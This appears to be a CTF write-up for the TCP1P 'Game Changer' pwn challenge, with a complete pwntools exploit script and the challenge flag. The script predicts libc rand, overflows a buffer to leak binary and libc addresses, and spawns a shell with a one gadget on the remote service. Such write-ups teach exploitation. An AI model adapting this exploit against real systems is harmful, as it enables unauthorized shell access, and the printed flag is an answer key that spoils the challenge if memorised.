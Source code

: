 
# Game Changer

## Overview & Description

Author : itoid

Difficulty : Easy

Are you a Game Changer?

[gamechanger](./dist/gamechanger)

## Hints

Can you change it?

## TL;DR

- Predict the predictable random number by using ctypes library for python
- Leak the binary address and make the program loop again
- Leak libc address and use one gadget to spawn the shell

## Solve Script
    
<details>
<summary>exp.py</summary>

```python
from pwn import *

exe = './gamechanger'
elf = context.binary = ELF(exe, checksec = 0)
from ctypes import CDLL
dll = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
dll.srand(dll.time(0))
io = remote("ctf.tcp1p.com", 9254)

def randomization(a, b):
	return (dll.rand() + a) % b

p = randomization(34, 23)

def exploit():
	global p
	io.sendlineafter(b'): ', b'1')
	io.sendlineafter(b"0\n", f"{p}".encode('utf-8'))
	p = cyclic(0x108)
	p += p8(0xbb)
	io.sendafter(b'g?\n', p)
	io.recvuntil(b'o ')
	io.recv(0x108)
	elf.address = u64(io.recvuntil(b'...', drop=0x3).ljust(8, b'\x00')) - 0x14bb
	stdout = elf.address + elf.get_section_by_name(".bss").header["sh_addr"] + 0x100 + 0x40
	p = cyclic(0x100)
	p += p64(stdout)
	p += p64(elf.address + 0x136f)
	io.sendafter(b'g?\n', p)
	io.recvuntil(b'o ')
	io.recv(0x100)
	io.recvuntil(b'n!\n')
	libcbase = u64(io.recvuntil(b'\n').strip().ljust(8, b'\x00')) - 0x620d0
	p = cyclic(0x100)
	p += p64(stdout + 0x88)
	p += p64(libcbase + 0xebcf1)
	p += p64(stdout)
	p += p64(0)
	io.send(p)
	io.interactive()
if __name__=='__main__':
	exploit()
```

## Flag

`TCP1P{w0w_1ve_n3v3r_533n_5uch_4_900d_g4m3_ch4n93r_29c19ff69c5760fee1db8cac282a7b073bec936f}`